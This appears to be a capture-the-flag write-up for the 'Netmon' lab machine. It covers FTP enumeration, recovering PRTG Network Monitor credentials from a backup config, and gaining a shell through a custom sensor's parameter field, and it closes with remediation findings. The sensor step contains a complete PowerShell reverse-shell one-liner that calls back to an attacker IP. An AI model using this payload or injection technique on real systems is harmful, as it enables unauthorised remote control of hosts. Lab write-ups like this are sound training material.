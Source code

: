 ```yaml
---
layout: default
---
```


# Netmon

![](./01.png)

As per usual, we'll start with ```nmap```.

![](./02.png)

It looks like we have FTP, RPC, and HTTP services responding on the system.

Let's take a look at the FTP share to see what we have available.

![](./03.png)

If we dig down into the Users folder, we're able to access the user flag.  Mine kept opening blank in ```mousepad``` when opened from the share, so I copied it to my local machine and opened it.

![](./04.png)

If we further browse through the FTP share we find ```PRTG Setup Log.log``` located  in ```/Program Files (x86)/PRTG Network Monitor/```.

![](./05.png)

![](./06.png)

Looking at the contents of the file we find that the system is Windows version 10.0.14393, which is Windows 10 1607.

If we check HTTP on ports ```5985``` and ```47001```, we receive a 404.  So, being that we know HTTP is being served up, let's check port ```80``` to see if it just didn't respond to ```nmap``` for some reason.

![](./07.png)

If we look online for default credentials for PRTG Network Monitor, we find a username of "prtgadmin" with a matching password of "prtgadmin".  Let's give that whirl.

![](./08.png)

No luck there, so let's head back to the FTP share and poke around the file structure.  We already checked the PRTG Network Monitor install folder earlier, but didn't find any credentials.

So, where else does Windows install program data?  Let's check ```ProgramData```.

![](./09.png)

If we just look in the FTP share, we don't see the ```ProgramData``` folder as it's a hidden folder.  So, let's just try browsing to it manually.

![](./10.png)

Looks good, now let's dig deeper into the ```Paessler``` folder.

If we browse into the ```PRTG Network Monitor``` folder, we find a ```Configuration Auto-Backups``` folder, which contains a file called ```PRTG Configuration (Update to 18.1.37.13946).zip```.

![](./11.png)

Let's see what happens if we dig through the file.

![](./12.png)

Looks like we've found some credentials, however the password is encrypted.

Let's browse back up one directory.  If we look around we find a ```PRTG Configuration.old``` file, but this contains the same encrypted credentials.

However, if we look further, we also find a ```PRTG Configuration.old.bak``` file.

![](./13.png)

If we look through it, it has the same encrypted credentials as well, however, if we search for the dbpassword, those credentials are in plain text.

![](./14.png)

What are the chances this password will let us log in to the web console?

![](./15.png)

No such luck.  However, what if we iterate the password to another year?  The install log file we originally looked at has install dates from 2019, so let's give that a whirl.

![](./16.png)

Success!  Now that we have working credentials, lets see what we can do.

Let's add a new sensor.

![](./17.png)

We're going to create it on a new device, choosing the Windows Server group, and then specifying the loop back.

![](./18.png)

Now let's add a sensor under Device.

![](./19.png)

Next pick Custom Sensors and EXE/Script.

![](./20.png)

Let's pick "Demo Powershell Script - Returns a random integer value.ps1" for the EXE/Script and use the following as the parameters:

>```powershell
>";$client = New-Object System.Net.Sockets.TCPClient("10.10.██.█",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();"
>```

![](./21.png)

Do not click continue yet.

Let's startup a netcat listener on the port we specified above.

![](./22.png)

Now that the listener is configured, click continue on the sensor creation.

Once the sensor creates and runs itself, we should have a reverse shell.

![](./23.png)

Now let's get the root flag.

![](./24.png)

___

Findings

___

**Operating System:** Windows Server 2016 Standard

**IP Address:** 10.10.10.152

**Open Ports:**
- 21
- 80
- 135
- 139
- 5985
- 47001
- 49664
- 49665
- 49666
- 49667
- 49668
- 49669

**Services Responding:**
- FTP
- HTTP
- RPC

**Vulnerabilities Exploited:**
- Anonymous FTP share containing full drive
- Stored credentials in configuration files
- Easily guessable password scheme
- Application running as elevated account

**Configuration Insecurities:**
- Web application running as system account

**General Findings:**
- Consider placing FTP share behind authentication
- Consider cleaning up backup configuration files that contain stored credentials
- Consider strengthening authentication scheme
- Consider running PRTG Network Monitor as a limited service account

___

[Back](../)
